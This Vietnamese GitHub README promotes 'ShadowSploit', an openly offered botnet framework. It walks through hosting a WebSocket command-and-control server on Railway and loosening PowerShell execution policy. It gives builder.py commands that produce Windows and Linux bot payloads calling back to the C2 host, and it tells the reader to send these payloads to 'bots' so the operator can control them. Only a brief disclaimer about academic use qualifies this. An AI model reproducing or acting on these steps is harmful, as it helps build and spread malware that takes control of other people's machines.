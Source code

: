 # ShadowSploit - **Botnet Framework**

## 🚀 **Giới thiệu**

**ShadowSploit** là một framework **botnet** mã nguồn mở được phát triển cho **Kali Linux** và **Windows**. Framework này cho phép bạn xây dựng và quản lý botnet dễ dàng qua **WebSocket C2 Server**. 

### 💡 **Lợi ích**:
- Quản lý botnet qua **giao thức WebSocket**.
- Dễ dàng triển khai và tùy chỉnh.
- Hỗ trợ cả **Windows** và **Linux**.

## 🔧 **Cài đặt**

Để sử dụng **ShadowSploit**, bạn cần cài đặt **Python 3.6 trở lên** và các thư viện cần thiết.

**Bước 1**: Cài đặt các thư viện yêu cầu:
```bash
pip install -r requirements.txt 
```
Bước 2: Clone repository về máy của bạn:
```bash
git clone https://github.com/shinsad0907/ShadowSploit.git
cd ShadowSploit
```
1️⃣ Mở PowerShell với quyền Admin:
Nhấn Win + X, chọn Windows Terminal (Admin) hoặc PowerShell (Admin).
Nếu bạn không mở bằng quyền Admin, lệnh có thể không có hiệu lực.
2️⃣ Kiểm tra chính sách hiện tại:
Nhập lệnh sau và nhấn Enter:
```bash
Get-ExecutionPolicy
```
Nếu kết quả là Restricted, có nghĩa là script không được phép chạy.

3️⃣ Cho phép chạy script:
Chạy lệnh sau để cho phép chạy script trên hệ thống:
```bash
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```
Nhấn Y và Enter để xác nhận.

Bước 3: Tạo môi trường ảo (tuỳ chọn):
```bash
python3 -m venv venv
source venv/bin/activate   # Trên Linux / macOS
venv\Scripts\activate      # Trên Windows
```

Bước 4: Cài đặt các phụ thuộc:
```bash
pip install -r requirements.txt
```

🌐 Chạy WebSocket C2 Server trên Railway
Tạo và Cấu Hình Server trên Railway
ShadowSploit có thể dễ dàng triển khai WebSocket C2 Server trên Railway để phục vụ botnet của bạn. Dưới đây là các bước chi tiết để cấu hình và triển khai server trên Railway.

Bước 1: Tạo tài khoản Railway
Đầu tiên, bạn cần đăng ký tài khoản tại Railway.

Bước 2: Tạo một Project Mới trên Railway
Đăng nhập vào Railway.
Nhấn vào nút "New Project".
Chọn "Deploy from GitHub" để kết nối tài khoản GitHub của bạn với Railway.
Tìm kiếm và chọn repository của bạn, nơi bạn đã lưu mã nguồn của ShadowSploit.
Nhấn "Deploy".
Bước 3: Cấu hình môi trường cho server
Sau khi kết nối với repository, Railway sẽ tự động nhận diện mã nguồn của bạn. Tiếp theo, bạn cần cấu hình các biến môi trường để WebSocket C2 Server hoạt động chính xác.

Chọn "Settings" từ thanh menu của dự án trên Railway.
Thêm các biến môi trường sau (nếu cần thiết):
HOST: Địa chỉ IP của server (thường sẽ là 0.0.0.0 đối với Railway).
PORT: Cổng mà WebSocket server sẽ lắng nghe, ví dụ 8080.
Bước 4: Cấu hình tệp Procfile
Đảm bảo rằng bạn có một tệp Procfile trong repository của mình. Tệp này sẽ chỉ dẫn Railway cách chạy ứng dụng của bạn.

Ví dụ về Procfile:
```bash
web: python server.py
```
Bước 5: Triển khai Server
Sau khi cấu hình các biến môi trường và tệp Procfile, nhấn "Deploy" để triển khai server lên Railway. Quá trình triển khai sẽ tự động bắt đầu.

Bước 6: Truy cập URL của Server
Sau khi server được triển khai thành công, Railway sẽ cung cấp cho bạn một URL mà bạn có thể sử dụng để kết nối bot của mình tới WebSocket server.

URL của server sẽ có dạng:
```bash
https://your-project-name.up.railway.app
```
Lưu ý: Bạn có thể thay thế your-project-name bằng tên dự án thực tế của bạn trên Railway.

🔌 Liên kết WebSocket C2 Server với ShadowSploit
Bước 1: Cập nhật cấu hình WebSocket Server trong ShadowSploit
Sau khi bạn đã triển khai WebSocket C2 server trên Railway và nhận được URL của server, bạn cần cấu hình ShadowSploit để kết nối đến server này.

1. Mở file cấu hình config.json trong repository ShadowSploit.
2. Thêm hoặc cập nhật các thông tin sau:
```bash
{
  "C2_SERVER_URL": "https://your-project-name.up.railway.app",
  "C2_SERVER_PORT": "8080"
}
```
- C2_SERVER_URL: Đặt là URL bạn đã nhận được từ Railway.
- C2_SERVER_PORT: Cổng mà server WebSocket đang lắng nghe (ví dụ: 8080).

Bước 2: Khởi động WebSocket C2 Client
Sau khi cấu hình xong, bạn có thể khởi động bot của mình để kết nối đến WebSocket C2 server.
```bash
python3 client.py
```

🖥️ Cách sử dụng
Chạy WebSocket Server
Sau khi cài đặt xong, bạn cần chạy WebSocket C2 Server để có thể điều khiển botnet:
```bash
python3 server.py
```
Server này sẽ lắng nghe kết nối từ các bot.

Tạo Payload cho Windows hoặc Linux
Để tạo payload cho các bot, bạn có thể sử dụng builder.py. Chạy lệnh sau để tạo payload tương ứng với hệ điều hành:

Payload cho Windows:
```bash
python3 builder.py --payload windows --host 192.168.1.100 --port 8080 --output botnet.exe
```
Payload cho Linux:
```bash
python3 builder.py --payload linux --host 192.168.1.100 --port 8080 --output botnet.elf
```
Kết nối Bot với Server
Sau khi tạo payload và gửi cho các bot, chúng sẽ tự động kết nối với WebSocket Server bạn đã khởi động ở bước trước. Bạn có thể bắt đầu điều khiển chúng thông qua server này.

🔐 Lưu ý
⚠️ ShadowSploit chỉ nên được sử dụng cho các mục đích học thuật và kiểm tra bảo mật.

Không sử dụng cho các hoạt động tấn công bất hợp pháp hoặc xâm nhập vào hệ thống không được phép.

🔗 Tải về Cấu hình Server C2 từ Repository
Nếu bạn muốn sử dụng cấu hình WebSocket C2 Server đã được cấu hình sẵn, bạn có thể tải về từ repository sau:

- ShadowSploit C2 Server Configuration
Trong repository này, bạn sẽ tìm thấy toàn bộ cấu hình sẵn của WebSocket C2 Server đã được cấu hình để triển khai trên Railway và các hướng dẫn chi tiết về cách sử dụng.

Cách tải về và triển khai từ cấu hình sẵn:
1. Truy cập vào repo cấu hình C2.
2. Clone repository về máy của bạn:
```bash
git clone https://github.com/shinsad0907/ShadowSploit-c2-setup.git
cd ShadowSploit-c2-setup
```
3. Lưu ý rằng repository này đã chứa toàn bộ cấu hình cho Railway. Bạn chỉ cần tải về và triển khai trên Railway theo hướng dẫn dưới đây.
🧑‍💻 Liên hệ
Nếu bạn gặp khó khăn khi sử dụng ShadowSploit, vui lòng mở Issue trên GitHub hoặc gửi email cho chúng tôi tại: youremail@example.com.

Tham gia cộng đồng: GitHub Repository



